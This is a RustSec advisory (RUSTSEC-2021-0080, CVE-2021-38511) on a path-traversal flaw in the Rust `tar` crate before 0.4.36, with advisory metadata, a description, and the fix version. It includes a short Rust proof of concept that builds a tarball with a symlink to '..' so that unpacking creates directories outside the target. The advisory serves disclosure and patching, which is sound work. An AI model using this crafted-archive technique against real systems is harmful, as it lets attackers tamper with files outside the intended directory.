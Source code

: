 ```toml
[advisory]
id = "RUSTSEC-2021-0080"
package = "tar"
aliases = ["CVE-2021-38511"]
cvss = "CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:N"
date = "2021-07-19"
url = "https://github.com/alexcrichton/tar-rs/issues/238"

[versions]
# none, 0day
patched = [">= 0.4.36"]

[affected]
functions = { "tar::Archive::unpack" = ["< 0.4.36"] }
```

# Links in archive can create arbitrary directories

When unpacking a tarball that contains a symlink the `tar` crate may create
directories outside of the directory it's supposed to unpack into.

The function errors when it's trying to create a file, but the folders are
already created at this point.

```rust
use std::{io, io::Result};
use tar::{Archive, Builder, EntryType, Header};

fn main() -> Result<()> {
    let mut buf = Vec::new();

    {
        let mut builder = Builder::new(&mut buf);

        // symlink: parent -> ..
        let mut header = Header::new_gnu();
        header.set_path("symlink")?;
        header.set_link_name("..")?;
        header.set_entry_type(EntryType::Symlink);
        header.set_size(0);
        header.set_cksum();
        builder.append(&header, io::empty())?;

        // file: symlink/exploit/foo/bar
        let mut header = Header::new_gnu();
        header.set_path("symlink/exploit/foo/bar")?;
        header.set_size(0);
        header.set_cksum();
        builder.append(&header, io::empty())?;

        builder.finish()?;
    };

    Archive::new(&*buf).unpack("demo")
}
```

This has been fixed in https://github.com/alexcrichton/tar-rs/pull/259 and is
published as `tar` 0.4.36. Thanks to Martin Michaelis (@mgjm) for discovering
and reporting this, and Nikhil Benesch (@benesch) for the fix!
